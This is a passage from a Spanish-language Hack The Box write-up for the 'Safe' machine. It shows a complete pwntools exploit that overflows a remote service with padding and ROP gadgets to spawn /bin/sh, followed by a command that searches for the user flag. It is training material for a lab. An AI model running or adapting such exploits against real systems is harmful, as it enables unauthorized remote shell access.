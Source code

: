 ```python
p.interactive()
```

Nuestro script, debería verse algo así:

```python
#!/usr/bin/python3

from pwn import *

context.terminal = ['gnome-terminal', '-x']
context.arch = 'amd64'
context.os = 'linux'

# p = gdb.debug('/ubicación/del/binario/myapp', 'b *0x40116e')
# p.recvuntil("What do you want me to echo back?")

p = remote("10.10.10.147", 1337)

popR13 = p64(0x401206)
system = p64(0x40116e)
test = p64(0x401152)
 
junk = ("A"*112).encode()
  
binSh = "/bin/sh\x00".encode()
  
nullByte = p64(0x0)
  
p.sendline(junk + binSh + popR13 + system + nullByte + nullByte + test)
  
p.interactive()
```

Al ejecutar nuestro script, lo que vamos a conseguir es una consola, por lo que una vez dentro del sistema, podríamos listar la flag del usuario con bajos privilegios.

```
find / -name user.txt 2> /dev/null
```
![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2021-12-27-Safe-Hack-The-Box/28.png){:class="blog-image" onclick="expandImage(this)"} 

### [](#header-3)Escalada De Privilegios

Para conseguir la flag del usuario con máximos privilegios, podemos emepezar por listar el contenido dentro de la carpeta del usuario user.
